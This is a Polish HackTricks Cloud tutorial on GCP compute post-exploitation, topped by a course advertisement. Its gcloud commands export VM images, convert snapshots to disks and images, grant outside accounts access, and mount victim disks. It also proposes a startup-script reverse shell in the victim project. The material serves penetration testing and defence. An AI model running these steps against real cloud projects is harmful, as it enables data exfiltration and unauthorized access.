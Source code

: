 # GCP - Wykorzystanie po przejęciu obliczeń

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>

## Obliczenia

Aby uzyskać więcej informacji na temat Obliczeń i VPC (Sieciowanie), sprawdź:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Eksport i Inspekcja obrazów lokalnie

To pozwoliłoby atakującemu **uzyskać dostęp do danych zawartych w już istniejących obrazach** lub **tworzyć nowe obrazy działających maszyn wirtualnych** i uzyskiwać do nich dostęp bez posiadania dostępu do działającej maszyny wirtualnej.

Możliwe jest wyeksportowanie obrazu maszyny wirtualnej do kubełka, a następnie pobranie go i zamontowanie lokalnie za pomocą polecenia:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Przed wykonaniem tej czynności atakujący może potrzebować uprawnień do kubełka przechowywania oraz na pewno **uprawnień do cloudbuild**, ponieważ to **usługa**, która zostanie poproszona o wykonanie eksportu. Ponadto, aby to działało, SA codebuild i SA compute potrzebują uprzywilejowanych uprawnień. SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` potrzebuje:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` potrzebuje:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Eksportuj i Sprawdzaj Lokalnie Snapshots i Dyski

Nie jest możliwe bezpośrednie eksportowanie snapshots i dysków, ale można **przekształcić snapshot w dysk, dysk w obraz** i zgodnie z **poprzednim rozdziałem**, wyeksportować ten obraz, aby go lokalnie sprawdzić

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Sprawdź obraz tworząc wirtualną maszynę

Z celem dostępu do **danych przechowywanych w obrazie** lub wewnątrz **uruchomionej maszyny wirtualnej**, z której **atakujący utworzył obraz**, można udzielić zewnętrznemu kontu dostępu do obrazu:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
a następnie utwórz nową maszynę wirtualną z tego obrazu:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Jeśli nie możesz udzielić swojemu zewnętrznemu kontu dostępu do obrazu, możesz uruchomić maszynę wirtualną korzystając z tego obrazu w projekcie ofiary i **spowodować wykonanie odwrotnego powłoki przez metadane** obrazu, dodając parametr:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Sprawdź migawkę/dysk, podłączając ją do maszyny wirtualnej

Mając na celu dostęp do **danych przechowywanych na dysku lub migawce, możesz przekształcić migawkę w dysk, dysk w obraz i kontynuować poprzednie kroki.**

Możesz także **udzielić zewnętrznemu kontu dostępu** do dysku (jeśli punktem wyjścia jest migawka, udziel dostępu do migawki lub utwórz z niej dysk):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Podłącz dysk** do instancji:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Zamontuj dysk wewnątrz maszyny wirtualnej:

1. **Zaloguj się przez SSH do maszyny wirtualnej**:

```sh
gcloud compute ssh [NAZWA_INSTANCJI] --zone [STREFA]
```
2. **Zidentyfikuj dysk**: Po zalogowaniu się do maszyny wirtualnej zidentyfikuj nowy dysk, wyświetlając listę urządzeń dyskowych. Zazwyczaj znajdziesz go jako `/dev/sdb`, `/dev/sdc`, itp.
3. **Sformatuj i zamontuj dysk** (jeśli jest to nowy lub surowy dysk):
*   Utwórz punkt montowania:

```sh
sudo mkdir -p /mnt/disks/[KATALOG_MONTOWANIA]
```
*   Zamontuj dysk:

```sh
sudo mount -o discard,defaults /dev/[URZĄDZENIE_DYSKU] /mnt/disks/[KATALOG_MONTOWANIA]
```

Jeśli **nie możesz udzielić dostępu zewnętrznemu projektowi** do migawki lub dysku, możesz potrzebować **wykonać te czynności wewnątrz instancji w tym samym projekcie co migawka/dysk**.
